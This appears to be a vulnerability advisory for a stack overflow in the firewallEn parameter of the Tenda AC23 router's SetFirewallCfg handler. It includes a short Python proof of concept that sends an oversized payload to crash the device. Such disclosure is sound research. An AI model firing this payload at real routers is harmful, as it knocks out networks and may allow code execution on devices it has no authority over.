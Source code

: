 
Tenda AC23 V16.03.07.52 SetFirewallCfg handles a stack overflow vulnerability in the firewallEn parameter, which can be exploited by a remote attacker to submit a special request that can crash the application or execute arbitrary code in the context of the application.

<img width="416" height="279" alt="image" src="https://github.com/user-attachments/assets/7137114c-1534-4a55-8812-ebc74f73b7ea" />

POC：
```
from pwn import *
import requests

payload = b'a'*0x1000

url = "http://192.168.100.254/goform/SetFirewallCfg"

cookie = {"Cookie":"password=12345"}
data = {"firewallEn": payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```
